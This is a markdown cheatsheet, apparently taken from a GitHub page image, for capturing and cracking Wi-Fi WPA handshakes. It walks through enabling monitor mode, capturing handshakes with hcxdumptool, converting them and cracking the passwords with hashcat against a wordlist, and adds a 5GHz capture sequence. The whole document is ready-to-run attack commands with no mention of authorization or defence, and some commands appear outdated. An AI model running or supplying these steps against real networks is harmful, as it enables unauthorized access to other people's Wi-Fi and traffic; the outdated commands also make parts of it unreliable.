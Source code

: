 
```markdown
# Wi-Fi Handshake Capture & Crack Cheatsheet

## Table of Contents

1. [Preliminary Commands & Information Retrieval](#preliminary-commands--information-retrieval)
2. [Capture & Conversion Phase](#capture--conversion-phase)
3. [Additional Scans & Information](#additional-scans--information)
4. [Cracking Phase](#cracking-phase)
5. [5GHz Network Capturing Cheat Sheet](#5ghz-network-capturing-cheat-sheet)

---

## Preliminary Commands & Information Retrieval

### Secure Copy from Remote Device

```bash
scp -r root@172.16.42.1:/root/example.pcapng /home/username/Desktop
```

📖 Downloads files from remote devices using SCP.

### Check Wireless Interfaces

```bash
iwconfig
```

📖 Displays wireless network interface details.

### Kill Interfering Services

```bash
airmon-ng check kill
```

📖 Stops services that might interfere with wireless tools.

---

## Capture & Conversion Phase

### Set Wireless Card to Monitor Mode

```bash
sudo ip link set wlan0 down
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up

# Set back to normal
ip link set wlan0mon down
iwconfig wlan0mon mode managed
ip link set wlan0 up
```

📖 Prepares the wireless card for capture.

### Capture Handshakes with hcxdumptool

```bash
hcxdumptool -i wlan1 -o dumpfile.pcapng --active_beacon --enable_status=15 //OLD
hcxdumptool -i wlan1 -w dumpfile.pcapng --disable_deauthentication --disable_beacon //NEW
hcxdumptool -i wlan1 -w dumpfile.pcapng --disable_deauthentication --rds=1//NEW
```

📖 Captures packets from networks.

### Convert Captured File for Hashcat

```bash
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

📖 Converts packets for password cracking.

---

## Additional Scans & Information

### Scan for Nearby Networks

```bash
hcxdumptool --do_rcascan -i wlan1
```

📖 Scans and displays nearby networks.

---

## Cracking Phase

### Crack with Hashcat

```bash
hashcat -m 22000 hash.hc22000 wordlist.txt
```

📖 Uses hashcat to attempt password cracks.

---

💡 `sudo systemctl stop NetworkManager.service`  
💡 `sudo systemctl stop wpa_supplicant.service`

---

# 5GHz Network Capturing Cheat Sheet

## 1. Install Necessary Tools

```bash
sudo apt-get install hcxdumptool hcxtools
```

## 2. Check for 5GHz Support

```bash
iw list
```

## 3. Enable Monitor Mode

```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```

## 4. Set to 5GHz Channel

```bash
sudo iw dev wlan0 set channel 36
```

## 5. Identify Target Networks

```bash
sudo hcxdumptool -i wlan0 --scan
```

## 6. Capture Traffic

```bash
sudo hcxdumptool -i wlan0 --enable_status=1 -o output.pcapng --filterlist=filterlist.txt --filtermode=2
```

## 7. Analyze Captured Traffic

```bash
hcxpcaptool -z output.hccapx output.pcapng
```

## 8. Troubleshooting

- Check regulatory domain:

```bash
sudo iw reg get
sudo iw reg set US
```

- Check for nearby networks:

```bash
sudo iw dev wlan0 scan | grep -E '^(BSS|channel)'
```

- Check adapter capabilities:

```bash
iw list
```

## 9. Switch Back to 2.4GHz

```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo iw dev wlan0 set channel 6
sudo ip link set wlan0 up
```

## 10. List 2.4GHz Channels

```bash
iw phy phy0 channels
# or
iwlist wlan0 channel
```
```

Feel free to modify or add any additional information!
